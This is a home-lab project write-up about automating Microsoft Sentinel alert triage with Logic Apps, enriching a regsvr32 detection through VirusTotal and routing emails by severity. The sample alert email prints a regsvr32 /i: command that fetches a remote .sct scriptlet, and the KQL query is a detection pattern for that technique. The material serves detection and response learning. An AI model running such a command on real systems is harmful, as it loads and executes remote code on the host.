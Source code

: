 # **Phase 4 – SOAR Automation with Logic Apps (Microsoft Sentinel)**

## **Overview**

This phase explored SOAR (Security Orchestration, Automation, and Response) integration using Microsoft Sentinel and Logic Apps. The goal was to automate alert enrichment and response actions — simulating what an analyst would otherwise perform manually during triage. This pushed me outside my detection comfort zone and into the response domain, requiring a shift in thinking: what does an analyst *actually need* to make a decision quickly? What’s high-priority vs background noise?

## **Objectives**

* Learn how Sentinel incidents trigger Logic Apps

* Extract and enrich alert data using external APIs

* Implement conditional branching to route high- and low-severity events

* Simulate analyst workflows, especially IOC validation

* Learn to parse nested JSON structures inside alert payloads

## **Workflow Summary**

1. A KQL detection triggers on suspicious use of `regsvr32.exe` (T1218.010) contacting an external IP via HTTP

2. Sentinel creates an incident and triggers a Logic App

3. The Logic App extracts alert fields from `ExtendedProperties`

4. Contacted IP is parsed and sent to VirusTotal via HTTP GET request

5. The JSON response is parsed to extract `malicious` and `reputation` scores

6. Branching logic evaluates the reputation:

   * If **malicious \> 0** or **reputation \< 0** → Send `[ALERT]` email

   * Else → Send `[INFO]` email

## **Logic App Breakdown**

* **Trigger**: Sentinel alert

* **Compose**: Extracts `ExtendedProperties` field

* **Parse JSON**: Uses sample body to identify alert elements

* **Field Extraction**: Manually parsed fields for clarity: User, Image, CommandLine, ParentImage, IntegrityLevel, Contacted IP

* **HTTP Action**: GET request to VirusTotal API (with API key)

* **Parse JSON (VT)**: Extract `malicious` and `reputation` scores

* **Condition Block**:

  * `IF malicious > 0 OR reputation < 0` → Send alert email

  * `ELSE` → Send low-priority info email

[View Logic App Workflow PDF](/sentinel__detection_projects/phase4_regsvr32_soar/logic_app_success.pdf)

**Email Output (ALERT)**:

 Subject:  
\[ALERT\] Suspicious Regsvr32 Activity | User: redteam | IP: 192.168.1.80

Body:  
\- User: redteam  
\- Image: C:\\Windows\\System32\\regsvr32.exe  
\- Parent Image: powershell.exe  
\- CommandLine: regsvr32 /i:http://192\[.\]168\[.\]1\[.\]80/file.sct scrobj.dll  
\- Integrity Level: High  
\- Contacted IP: 192.168.1.80  
\- VT Malicious Score: 3  
\- VT Reputation Score: \-10

Recommended Actions:  
\- Investigate user activity  
\- Review traffic to the contacted IP  
\- Isolate the host if confirmed

[View sent email alert](/sentinel__detection_projects/phase4_regsvr32_soar/email_alert.PNG)


## **Technical Implementation**

**KQL Trigger**:
```kql
Event
| where EventID == 1
| extend raw_xml = tostring(EventData)
| extend 
    Image = extract(@"<Data Name=""Image"">(.*?)</Data>", 1, raw_xml),
    CommandLine = extract(@"<Data Name=""CommandLine"">(.*?)</Data>", 1, raw_xml),
    ParentImage = extract(@"<Data Name=""ParentImage"">(.*?)</Data>", 1, raw_xml),
    User = extract(@"<Data Name=""User"">(.*?)</Data>", 1, raw_xml),
    IntegrityLevel = extract(@"<Data Name=""IntegrityLevel"">(.*?)</Data>", 1, raw_xml)
| extend 
    ExtractedIP = extract(@"http[s]?://([^/]+)", 1, CommandLine)
| where Image endswith "regsvr32.exe" 
    and CommandLine has "http"
| project 
    TimeGenerated, 
    User, 
    Image, 
    CommandLine, 
    ParentImage, 
    IntegrityLevel,
    ExtractedIP

```
*  **Note:** `ExtractedIP` was added in retrospect after realising that this critical indicator could be reliably parsed directly in KQL rather than extracted later via Logic Apps. This streamlined the enrichment process, enabling simpler Logic App parsing and improving alert context earlier in the workflow.

* **Parsing Challenges**: The JSON inside ExtendedProperties required layered parsing. I used both UI and code view to troubleshoot, ultimately simplifying it by manually isolating each field in individual parse steps.

* **VirusTotal Query**: Used HTTP GET to query IP reputation. Sample JSON response copied from browser DevTools, then used to structure the `Parse JSON` action.

## **Analyst Workflow Impact**

Without automation, an analyst would:

* Manually extract the contacted IP from alert

* Search VirusTotal manually

* Estimate severity based on returned data

* Write a case summary

This Logic App replaces all of that with:

* IOC enrichment

* Structured alert context

* Severity-based tagging via email subject

It reduces MTTR, helps prevent alert fatigue, and supports faster escalation.

## **Triage Mapping**

* `[ALERT]` emails simulate Priority: High cases for SOC queues

* `[INFO]` emails simulate lower priority events (e.g., shadow IT, internal testing)

* Escalation logic is based on **malicious score** and **reputation**

## **Lessons Learned**

* Parsing nested JSON from Sentinel alerts is messy, especially when working with `ExtendedProperties`. Learning to inspect the payload in code view helped me understand field structure.

* Email formatting matters — structured fields make analyst review easier.

* I overcomplicated some parts of the flow but now understand how to streamline it.

## **Real-World Improvements**

If deploying this in a live SOC, I’d implement:

1. **Error Handling for VT Failures**

   * Add branch to handle 404 or timeout

   * Fallback enrichment (AbuseIPDB) or notify analyst with warning

2. **Filename Extraction & Hashing**

   * Parse filename from command line (e.g., `file.sct`)

   * Hash and enrich using file reputation services (e.g., ReversingLabs)

3. **Expanded Conditional Logic**

   * Add new branches: `if malicious > 0`, `if file_score > X`, etc.

4. **Tagging Known-Good Use**

   * Add allowlist for known internal IPs, accounts, or automation sources

   * Log these quietly but avoid notifying analysts

5. **Integration with Case Management**

   * Route enriched alerts directly into a ticketing system like TheHive or ServiceNow

---

This phase brought the project full circle — moving from detection to triage and enrichment. It represents what a junior analyst should aim to learn post-detection: how to reduce triage time, surface critical IOCs, and improve SOC efficiency through lightweight, automatable processes.
